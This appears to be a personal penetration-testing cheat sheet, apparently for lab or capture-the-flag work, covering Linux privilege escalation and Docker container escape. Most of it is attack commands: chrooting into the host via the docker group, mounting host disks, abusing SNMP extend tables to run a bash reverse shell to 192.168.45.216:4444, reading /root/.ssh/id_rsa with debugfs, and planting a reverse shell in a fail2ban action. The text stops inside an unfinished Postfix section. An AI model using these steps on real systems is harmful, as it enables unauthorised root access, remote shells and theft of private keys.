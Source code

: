 An example: [docker-tomcat-tutorial](https://github.com/softwareyoga/docker-tomcat-tutorial)

If your user is part of the 'docker' group
- find an image with `docker images`
- `docker run -v /:/mnt --rm -it IMAGE chroot /mnt sh`

Escape container
- If the first thing you see when you get access to the machine is a file `.dockerenv` and the hostname is something like `0873e8062560`, it means that you are in a docker container
- https://exploit-notes.hdks.org/exploit/container/docker/docker-escape/

Process
1. List host's disks
   - `fdisk -l`
2. Attempt mount `disklo`
   - `mkdir /tmp/mnt1`
   - `mount /dev/sda1 /tmp/mnt1`
   - `cd /tmp/mnt1`
3. Now you can navigate `sda1` in `/tmp/mnt1`
- If you find an internal ip / service (maybe with `ifconfig`, `netstat -ano` or `cat /etc/hosts`), try this
  1. `ssh -l root 172.17.0.2`

Docker Container Escape via SNMP
- SNMP test
  1. Look for `.snmpd.conf` (maybe in `/var/backups`)
     - found community string: `rocommunity 53cur3M0NiT0riNg`
     - Found NET-SNMP-EXTEND-MIB tables (`nsExtendConfigTable`, `nsExtendOutput1Table` and `nsExtendOutput2Table`) > this means RCE
  2. `sudo download-mibs`
  3. `set mibs +ALL in /etc/snmp/snmp.conf`
  4. `snmpwalk -v2c -c 53cur3M0NiT0riNg 192.168.190.113 nsExtendOutput1`
     - notice if the query works
- docker escape
   1. VICTIM:
      ```
      echo 'bash -c "bash -i >& /dev/tcp/192.168.45.216/4444 0>&1"' > /tmp/shtest
      chmod +x /tmp/shtest
      ```
   3. ATTACKER: `snmpwalk -v2c -c 53cur3M0NiT0riNg 192.168.190.113 nsExtendOutput1`

### User groups
- If your user is part of the group `disk`:
  1. `df -h`
  2. `debugfs /dev/sd[a-z][1-9]`  example: `sda1`
  3. `debugfs: cat /root/.ssh/id_rsa`
- group `video`: [HackTricks | Video Group](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#video-group)

### fail2ban
- See: "[Privilege Escalation with fail2ban nopasswd](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)"
- fail2ban config: `/etc/fail2ban/jail.conf`
- ```
  /etc/fail2ban/action.d/iptables-multiport.conf
  actionban = reverse shell
  ```
- trigger the ban with hydra

### Postfix

- [How To Automatically Add A Disclaimer To Outgoing Emails With alterMIME (Postfix On Debian Squeeze)](https://www.howtoforge.com/how-to-automatically-add-a-disclaimer-to-outgoing-emails-with-altermime-postfix-on-debian-squeeze)
  ```